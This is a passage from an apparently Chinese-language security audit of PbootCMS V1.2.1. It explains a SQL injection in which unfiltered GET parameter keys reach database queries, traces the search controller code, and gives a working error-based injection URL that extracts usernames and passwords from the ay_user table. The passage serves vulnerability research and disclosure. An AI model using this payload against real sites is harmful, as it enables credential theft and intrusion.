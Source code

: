 这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。 这里接收了外部了外部所有的 get 参数然后判断了开头的前 4 个字符是否 ext_ 开头，如果符合就直接拼接进入$where2 这个数组 然后带入数据库进行 getList 方法与 getSpecifyList 查询，而底层是字符串拼接，过滤了 value 没有过滤 key 所以有注入

## 0x08.4 前台搜索框注入

### 0x08.4.1 漏洞利用

```
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Search/index?keyword=aaaa&updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123 
```

![image](img/4700d127fecb8f9a7f8cfdef4eb1c08d.png)

### 0x08.4.2 漏洞讲解

文件地址：PbootCMS-V1.2.1\apps\home\controller\SearchController.php 方法：index()

```
// 骚操作 注入
    // parserSearchLabel
    public function index()
    {
        $content = parent::parser('search.html'); // 框架标签解析
        $content = $this->parser->parserBefore($content); // CMS 公共标签前置解析
        $content = $this->parser->parserPositionLabel($content, 0, '搜索', url('/home/Search/index')); // CMS 当前位置标签解析
        $content = $this->parser->parserSpecialPageSortLabel($content, 0, '搜索结果', url('/home/Search/index')); // 解析分类标签
        $content = $this->parser->parserSearchLabel($content); // 搜索结果标签
        $content = $this->parser->parserAfter($content); // CMS 公共标签后置解析
        $this->cache($content, true);
    } 
```

文件地址：apps\home\controller\ParserController.php 方法：parserSearchLabel(

```
进入以后 查看调用了 $content = $this->parser->parserSearchLabel($content);  方法 
```
